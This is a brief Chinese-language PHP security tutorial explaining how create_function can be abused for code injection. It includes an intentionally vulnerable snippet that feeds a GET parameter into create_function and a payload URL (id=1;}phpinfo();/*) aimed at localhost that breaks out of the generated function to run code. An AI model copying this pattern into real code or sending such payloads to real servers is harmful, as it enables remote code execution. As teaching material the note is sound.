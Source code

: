 ## create_function 函数

`create_function` 函数根据传递的参数创建匿名函数，并为该匿名函数返回唯⼀的名称
函数语法: `string create_function(string $arges , string $code)`

```php
<?php
$id=$_GET['id'];
$code='echo'.$func.'test'.$id.'.';
create_function('$func',$code);
?>
```

`create_function` 函数会创建虚拟函数转变成如下代码

```php
<?php
$id=$_GET['id'];
function func($func){
    echo "test".$id;
}
```

当 id 传⼊`1;}phpinfo();/*`时 就可以造成代码执⾏
Payload:

`http://127.0.0.1/test.php?id=1;}phpinfo();/*`

拼接后为, 把后面都注释了。

```php
<?php
$id=$_GET['id'];
function func($func){
  echo "test".1;}phpinfo();/*;
}
?>
```
